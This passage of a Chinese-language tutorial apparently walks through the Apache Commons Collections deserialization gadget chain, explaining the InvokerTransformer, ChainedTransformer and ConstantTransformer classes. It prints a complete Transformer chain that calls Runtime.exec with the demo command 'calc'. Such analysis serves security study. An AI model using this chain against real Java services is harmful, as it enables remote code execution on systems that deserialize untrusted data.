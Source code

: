 这时候发现如果成功触发，setValue的值必须是Runtime的对象。这必然是不科学的..我们无法保证实现了setValue的同时这个值还必须为Runtime对象

```java
Class cls = input.getClass(); 
//通过反射获取Method对象,调用的方法名和参数类型这里通过上面的构造方法都可控
Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
//将input对象传入,利用invode方法执行我们指定的函数并传参
return method.invoke(input, this.iArgs);
```

这时候来看invokerTransformer的transform方法如果不传入Runtime对象是无法一次性构造利用链的，必须循环多次构造才行

完整的构造链

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},
                new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class},
                new Object[]{"calc"})
};
Transformer chain = new ChainedTransformer(transformers) ;
```

先来看ChainedTransformer类

```java
//构造函数
public ChainedTransformer(Transformer[] transformers) {
    this.iTransformers = transformers; //传入transformers数组
}

//进行循环调用
public Object transform(Object object) {
    for(int i = 0; i < this.iTransformers.length; ++i) {
        object = this.iTransformers[i].transform(object);
    }
    return object;
}
```

会将我们构造的transformers数组传入，进行循环调用，每次会将上次调用返回的object当做transform的参数传入

第一次传入的object的值为setValue('test') 的值，为test

这时候又需要ConstantTransformer类了，因为第一次使用InvokerTransformer，如果setValue的值为test，input.getClass()获取是String类型的Class对象。而我们需要的是Runtime

来看ConstantTransformer类

```java
//构造函数，获取传入的Object对象
public ConstantTransformer(Object constantToReturn) {
    this.iConstant = constantToReturn;
}

//transform方法直接返回this.iConstant对象，同setValue的值input毫无关系
public Object transform(Object input) {
    return this.iConstant;
}
```
